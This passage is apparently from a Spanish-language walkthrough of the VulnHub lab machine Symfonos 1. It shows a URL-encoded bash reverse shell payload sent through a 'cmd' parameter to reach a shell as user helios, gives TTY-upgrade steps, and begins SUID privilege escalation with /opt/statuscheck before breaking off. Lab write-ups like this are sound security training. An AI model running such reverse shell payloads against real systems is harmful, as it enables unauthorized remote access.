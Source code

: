 Y enviamos como valor de `cmd` el siguiente payload
```bash
bash -i >%26 /dev/tcp/192.168.1.14/443 0>%261
```
> Debemos encodear el `&` como `%26` para no tener problemas en la interpretación de nuestro código.
{: .prompt-warning }


De esta forma, ganamos acceso al sistema como el usuario `helios`.

![Symfonos 1](/assets/img/vulnhub/symfonos1/symfonos25.png)
_Usuario helios Symfonos 1_

Hacemos el tratamiento de la tty para tener una terminal más interactiva:

- `script /dev/null -c bash`
- CTRL + Z
- `stty raw -echo; fg`
- `reset xterm`
- `export TERM=xterm`
- `export SHELL=bash`
- `stty rows <rows> columns <columns>`

## Escalación de privilegios

Al realizar una enumeración básica del sistema, podemos ver que existe un binario fuera de lo común con permisos SUID `/opt/statuscheck`.

![Symfonos 1](/assets/img/vulnhub/symfonos1/symfonos26.png)
_statuscheck_

Si ejecutamos el comando, observamos que la salida es similar a la realizada al momento de ejecutar `curl` contra el localhost
